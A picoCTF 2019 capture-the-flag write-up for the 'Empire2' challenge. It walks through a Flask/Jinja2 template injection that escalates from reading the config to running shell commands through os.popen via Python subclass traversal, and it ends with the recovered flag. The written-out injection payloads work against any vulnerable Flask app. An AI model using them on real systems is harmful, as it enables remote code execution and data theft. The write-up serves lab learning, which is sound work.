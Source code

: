 # Empire2
#### Well done, Agent 513! Our sources say Evil Empire Co is passing secrets around when you log in: https://2019shell1.picoctf.com/problem/13253/, can you help us find it? or http://2019shell1.picoctf.com:13253

This is a flask injection problem. The todo page is still vulnerable just as before. These are the commands I used.

First I tried looking at the config file with `{{config}}` however it only contains a false flag. Instead we have to navigate the server.

We can do this by first injecting `{{[].__class__.__base__.__subclasses__()}}` to list all the subclasses. Then we have to look for the index of "warnings.catch_warnings" which turns out to be 157. We can make sure of this by injecting `{{''.__class__.mro()[1].__subclasses__()[157]}}` 

Then we inject `{{[].__class__.__base__.__subclasses__()[157].__init__.__globals__['__builtins__'].eval('__import__("os").popen("ls").read()')}}` to see the listing of all the files. 

We can inject  `{{[].__class__.__base__.__subclasses__()[157].__init__.__globals__['__builtins__'].eval('__import__("os").popen("grep -r picoCTF app").read()')}}` to search for the flag in the app's files. We get the flag outputted in the your todos tab:

```
Very Urgent: app/config.py: SECRET_KEY = 'picoCTF{your_flag_is_in_another_castle12345678}' app/models.py: secret = db.Column(db.String(128),default="picoCTF{its_a_me_your_flag5c0e0ae8}") app/routes.py: session['dark_secret'] = "picoCTF{its_a_me_your_flag5c0e0ae8}"
```

Flag: picoCTF{its_a_me_your_flag5c0e0ae8}
